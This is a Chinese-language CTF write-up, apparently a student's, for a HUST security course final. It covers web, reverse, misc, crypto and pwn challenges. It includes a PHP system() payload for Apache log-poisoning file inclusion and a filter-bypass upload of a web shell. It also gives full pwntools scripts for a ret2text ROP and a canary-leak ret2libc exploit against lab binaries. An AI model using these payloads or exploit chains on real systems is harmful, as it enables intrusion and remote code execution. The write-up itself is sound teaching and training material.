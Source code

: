 ```yaml
---
title: HUST - 网安实践4结课CTF试题
image: "https://i.postimg.cc/sXXV0rFM/7c1252b73d14f048c18e847d38cd7a12.jpg"
published: 2024-12-19
description: 2022届网安实践4CTF试题
tags: [CTF, HUST]
category: CTF
draft: false
---
```


由于课程关闭，无法进行复现，因此主要使用语言描述。

## Web1-简单文件上传

看源码发现过滤了php等关键词，但是处理的时候只删除了一次，所以可以进行双写绕过。传入木马文件后蚁剑连接得到flag。

## Web2-文件包含进阶

通过 POST 请求传入 hust=/var/log/apache2/access.log，设置 User-Agent 为 \<?php system("ls")?\>成功看到回显，再次传入\<?php system("cat fl4g.php");?\>，得到flag。

## Reverse1-我的ida怎么坏了

课程原题，不再重复。

## Reverse2-带衣服的程序

看了一眼，发现套了upx壳，使用upx -d脱壳。

## MISC1-我的报告呢

根据提示是pdf文件，在流量包中找到文件，此外还在myname里找到了pdf的密码。打开pdf后没有啥有效信息，一开始以为是wbStego4.3open加密，结果弄不出来，最后把它转成了word后，能得到flag。

![image-2024120215033368](assets\image-2024120215033368.png)

## MISC2-BB空间

伪加密，修正后解压得到二维码，依据各个文件名确定位置拼出二维码，扫描后得到一串数字，结合题目，在bilibili中搜索，找到一个用户，定位到他的最新视频。发现在视频简介中说明了视频中每个句子对应的符号。下载音频用audacity比对摘写，得到一串摩斯密码，解码后得到flag。

## Crypto1-奇怪的RSA

写完以后跑了一下发现有问题，说是没有逆，猜测是ehephi不互素了，验证了一下发现e和q-1不互素。改一下代码，转化到模p下来求解。

```python
# coding=gbk
import gmpy2
from Crypto.Util.number import *
from math import ceil, sqrt
from random import choice
from gmpy2 import *
e = 65537
p = 7861284553623919323985859832007323477428670056827930254749054233285002288342251190742960221895692365421571559655657906508077200676209583363642503410091987
q = 12190036856294802286447270376342375357864587534233715766210874702670724440751066267168907565322961270655972226761426182258587581206888580394726683112820379
c = 82847779812851057890043530756832889487859832046106654912667214872414017036311911272053848097280235944007447512360040509400105818809700630697569934731411705662409382305951636397690516111461818016905840116265739235873533920070957680510890443904586797027770509200983712548635748894266511224103615999307792279118
n = p*q
# _gcd = gcd(e,(p-1)*(q-1)) # 65537
gcd_q = gcd(e,p-1) # 1

d = inverse(e,p-1)
m = pow(c,d,p)
print(long_to_bytes(int(m)))
```

## Crypto2-AES加密

## PWN1-ret2text

常规栈溢出，程序也给了system和/bin/sh。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

#p = process("./2pwn.bin")
p = remote('172.17.0.15',17831)

binsh = 0x4023FF
system = 0x401B21
pop_rdi_ret = 0x401c73

payload = b'a'*72+p64(pop_rdi_ret)+p64(binsh)+p64(system)
p.sendline(payload)

p.interactive()
```



## PWN2-canary

程序没有给system或/bin/sh，也没说libc版本。所以要利用puts泄露libc版本和libc基址。

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

p = process("./pwn.bin")
elf = ELF("./pwn.bin")
#p = remote('172.17.0.15',14375)

pop_rdi = 0x401343
ret=0x40101a
binsh = 0x404058
system=0x4010b0

payload1=b'a'*72
p.sendlineafter('name?',payload1)

p.recvuntil(b'a'*72)
canary=u64(p.recv(8))-0xa

print(hex(canary))

payload = cyclic(72)+p64(canary)+p64(0)+p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(elf.sym["main"])

p.sendlineafter('stack!',payload)

puts = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(puts))

libc=LibcSearcher("puts",puts)

libcbase=puts-libc.dump('puts')
system=libcbase+libc.dump('system')
binsh=libcbase+libc.dump('str_bin_sh')
print(hex(system))
print(hex(binsh))

payload=cyclic(72)+p64(canary)+p64(0)+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendlineafter('name?',b'1')
p.sendlineafter('stack!',payload)
p.interactive()
```


